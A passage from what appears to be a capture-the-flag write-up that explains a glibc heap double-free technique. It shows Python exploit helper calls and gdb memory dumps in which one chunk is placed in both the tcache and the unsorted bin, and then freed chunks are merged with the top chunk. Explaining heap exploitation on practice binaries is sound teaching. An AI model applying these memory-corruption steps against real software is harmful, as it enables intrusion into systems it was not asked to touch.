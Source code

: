 The subsequent calloc call gives us the chunk that we had previously sent to unsorted bin.

Let us have a look at memory dump at each step from now on , for better understanding.

```
secret('a')
add(0,'T'*0x217)
free(0)
```
After freeing that chunk , we yet again fill the tcache of 0x217.

Now we erase `fd` and `bk` of this freed chunk and simply free it again without crashing.

This time , the same chunk goes into unsorted bin as it doesnt have any other choice  :thinking:.

```py
edit(0,p64(0)*2)
free(0)  
```

Now that we performed double free , let's observe the memory once.

```sh

0x55555555a130:	0x0032323232323232	0x0000000000000221 -> This chunk is both in tcache and main_arena unsorted bin
0x55555555a140:	0x00007ffff7fefca0	0x00007ffff7fefca0
0x55555555a150:	0x5454545454545454	0x5454545454545454


0x555555559150:	0x000055555555a140   -> This is tcache arena , let us call this victim chunk where we want to get allocation
0x7ffff7fefcb0 --> 0x55555555a130    -> This is main arena
```

Interestingly , we have the same [almost] chunk available in unsorted bin as well as tcache , the only difference being the way tcache and main_arena manage chunks , but then , we can fake that unsorted bin chunk and make it appear like the tcache chunk.

For that , let's extend the top chunk by adding 3 chunks of size 0x217 and freeing them all , thus sending a huge chunk into unsorted bin and merging with top.

```py

for i in xrange(3):
    add(i,'E'*0x217)

for i in xrange(3):
    free(i)

```

Let's examine the heap.

```sh

0x55555555a570:	0x0033333333333333	0x000000000001fa91 -> Notice how all chunks merged with top
0x55555555a580:	0x000055555555a130	0x00007ffff7fefca0
```
